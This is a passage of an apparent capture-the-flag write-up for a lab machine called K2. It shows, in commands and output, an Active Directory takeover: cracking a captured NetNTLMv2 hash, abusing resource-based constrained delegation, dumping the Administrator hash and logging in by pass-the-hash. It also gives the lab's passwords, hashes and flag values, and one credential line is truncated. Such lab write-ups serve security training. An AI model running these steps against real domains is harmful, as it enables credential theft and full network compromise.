[SMB] NTLMv2-SSP Hash     : o.armstrong::K2:e19b63306576610f:A7CA251BCD1EC6E1394A2119C93FC6A7:0101000000000000809CB5E758E2DB01DE2494AB3D3BD1AF00000000020008003600370055005A0001001E00570049004E002D0050004F0050004400460041004E004100340031005A0004003400570049004E002D0050004F0050004400460041004E004100340031005A002E003600370055005A002E004C004F00430041004C00030014003600370055005A002E004C004F00430041004C00050014003600370055005A002E004C004F00430041004C0007000800809CB5E758E2DB0106000400020000000800300030000000000000000000000000210000A3FD087B086C033AF9A6362C1D58F31CEF303763177058C617A07F56171F35ED0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310034002E00320031002E00320038000000000000000000
```

This is a NetNTLMv2 hash, we can attempt to crack it, let's save it and do:

```bash
hashcat -m 5600 netntlmv2.txt /usr/share/wordlists/rockyou.txt

O.ARMSTRONG::K2:e19b63306576610f:a7ca251bcd1ec6e1394a2119c93fc6a7:0101000000000000809cb5e758e2db01de2494ab3d3bd1af00000000020008003600370055005a0001001e00570049004e002d0050004f0050004400460041004e004100340031005a0004003400570049004e002d0050004f0050004400460041004e004100340031005a002e003600370055005a002e004c004f00430041004c00030014003600370055005a002e004c004f00430041004c00050014003600370055005a002e004c004f00430041004c0007000800809cb5e758e2db0106000400020000000800300030000000000000000000000000210000a3fd087b086c033af9a6362c1d58f31cef303763177058c617a07f56171f35ed0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310034002e00320031002e00320038000000000000000000:arMStronG08
```

We got credentials for `o.armstrong`:

```
o.armstrong:c
```

Now since we do have credentials, we can use `bloodhound` to check which path to go:

```python
bloodhound-python -d k2.thm -u 'o.armstrong' -p 'arMStronG08' -ns 10.10.103.26 -c All --zip
```

As always, if you already ingested data, you can clean up all data on `neo4j` using:

```cypher
MATCH (n)
DETACH DELETE n
```

Once the data has ingested, we can begin privilege escalation.


# PRIVILEGE ESCALATION
---

Ok, let's check our user:


We are members of `IT DIRECTOR`:


This group has got `GenericWrite` over `K2ROOTDC.K2.THM`, we can find this on bloodhound:


We will be exploiting Resource-Based Constrained Delegation, let's search an article about it:

Resource-Based Constrained Delegation:  https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution

Let's begin with the exploitation, first we need to create a machine account:

```python
addcomputer.py -method SAMR -computer-name 'ATTACKERSYSTEM$' -computer-pass 'MachinePASS2025!' -dc-host K2ROOTDC.K2.THM -domain-netbios K2.THM 'K2.THM/o.armstrong:arMStronG08'

[*] Successfully added machine account ATTACKERSYSTEM$ with password MachinePASS2025!.
```

Nice, let's now configure the target object so we can delegate to K2ROOTDC:

```python
rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'K2ROOTDC$' -action 'write' 'K2.THM/o.armstrong:arMStronG08'

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] ATTACKERSYSTEM$ can now impersonate users on K2ROOTDC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     ATTACKERSYSTEM$   (S-1-5-21-1966530601-3185510712-10604624-1116)
```

It worked, we can now use `getST.py` to get a Ticket Granting Service impersonating the admin:

```python
getST.py -spn 'cifs/k2rootdc.k2.thm' -impersonate 'Administrator' 'K2.THM/attackersystem$:MachinePASS2025!'

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_k2rootdc.k2.thm@K2.THM.ccache
```

We need to set the ticket:

```
export KRB5CCNAME=Administrator@cifs_k2rootdc.k2.thm@K2.THM.ccache
```

And finally, we can use secretsdump to get the hash:

```python
secretsdump.py -k -no-pass 'K2.THM/Administrator@k2rootdc.k2.thm'

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x36c8d26ec0df8b23ce63bcefa6e2d821
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)

Administrator:500:aad3b435b51404eeaad3b435b51404ee:15ecc755a43d2e7c8001215609d94b90:::
```

Finally got our hash, let's go into `evil-winrm` and finish the CTF:

```
evil-winrm -i K2rootdc -u 'Administrator' -H '15ecc755a43d2e7c8001215609d94b90'
```


Let's get both flags:

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\o.armstrong\Desktop\user.txt
THM{400002b4b9fa7decb59019364388b8a3}

*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
THM{2000099729df1a4ec18bc0346d36b5ba}
```


